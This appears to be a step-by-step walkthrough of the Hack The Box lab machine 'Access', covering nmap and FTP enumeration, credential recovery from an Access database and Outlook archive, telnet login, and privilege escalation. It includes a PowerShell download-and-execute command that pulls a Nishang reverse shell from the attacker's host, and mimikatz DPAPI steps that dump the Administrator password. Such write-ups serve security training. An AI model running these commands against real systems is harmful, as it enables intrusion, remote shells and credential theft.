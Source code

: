 Here’s a full walkthrough for **HTB: Access** 🧠, organized by phase with all the necessary commands and links formatted per your preference.

---

# 🧭 HTB: Access Walkthrough

**Difficulty**: Easy  
**OS**: Windows  
**Skills**: FTP enumeration, PST extraction, Telnet login, credential dumping, DPAPI decryption

---

## 🔍 Recon

```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.98
nmap -sV -sC -p 21,23,80 -oA nmap/scripts 10.10.10.98
```

**Findings**:
- [FTP](FTP) (21): Anonymous login allowed
- [Telnet](TELNET) (23)
- [HTTP](HTTP) (80): Microsoft IIS 7.5

---

## 🌐 Exploring HTTP

```bash
gobuster -u http://10.10.10.98 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,txt -t 20
```

- No interesting directories found
- Image shown on homepage

---

## 📁 FTP File Extraction

```bash
ftp 10.10.10.98
# Login: anonymous
# Navigate and download files
cd Backups
bin
get backup.mdb

cd ../Engineer
get "Access Control.zip"
```

---

## 🧵 Analyzing backup.mdb (Microsoft Access DB)

```bash
apt install mdbtools
mdb-tables backup.mdb
mdb-export backup.mdb auth_user
```

**Findings**:
```txt
engineer : access4u@security
```

---

## 🔓 Crack PST Archive

```bash
7z x Access\ Control.zip  # Password: access4u@security
```

---

## 📬 Extract Outlook Password (readpst)

```bash
apt install readpst
readpst Access\ Control.pst
cat Access\ Control.mbox
```

**Email content**:
```txt
security : 4Cc3ssC0ntr0ller
```

---

## 💻 Shell as security via Telnet

```bash
telnet 10.10.10.98
# Login: security / 4Cc3ssC0ntr0ller

whoami
type C:\Users\security\Desktop\user.txt
```

---

## 🔎 Privilege Escalation Enumeration

```cmd
cmdkey /list
```

**Findings**:
- Cached credentials for ACCESS\Administrator
- Found `.lnk` file referencing `runas /savecred`

---

## 🔄 Method 1: PrivEsc via runas & PowerShell reverse shell

### 🛠️ Prep Nishang shell

```bash
git clone https://github.com/samratashok/nishang.git
mkdir ~/www
cp nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/
echo 'Invoke-PowerShellTcp -Reverse -IPAddress <tun0_ip> -Port 443' >> ~/www/Invoke-PowerShellTcp.ps1

# Serve it
cd ~/www
python3 -m http.server 80

# Listener
nc -lnvp 443
```

### 🏃 Execute from target

```powershell
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://<tun0_ip>/Invoke-PowerShellTcp.ps1')"
```

**Result**: Administrator shell ➜ `whoami`, then:
```powershell
type C:\users\administrator\desktop\root.txt
```

---

## 🔄 Method 2: PrivEsc via DPAPI Credential Decryption

### 📤 Extract & Encode

```cmd
certutil -encode 0792c32e... output
certutil -encode 51AB168B... output
```

### 📥 Decode on Kali

```bash
base64 -d masterkey.b64 > masterkey
base64 -d credentials.b64 > credentials
```

### 🧪 Decrypt with mimikatz on Windows

```powershell
dpapi::masterkey /in:masterkey /sid:S-1-5-21-... /password:4Cc3ssC0ntr0ller
dpapi::cred /in:credentials
```

**Extracted Administrator password**:
```
55Acc3ssS3cur1ty@megacorp
```

### 🔁 Telnet as Administrator

```bash
telnet 10.10.10.98
# Login: administrator / 55Acc3ssS3cur1ty@megacorp
cd desktop
type root.txt
```

---

## 🗂️ Beyond Root – Analyze LNK

### 🔎 On Windows

```powershell
$WScript = New-Object -ComObject WScript.Shell
$SC = Get-ChildItem *.lnk
$WScript.CreateShortcut($SC)
```

### 🔍 On Linux with pylnker

```bash
base64 -d lnk.b64 > lnk
python pylnker.py lnk
```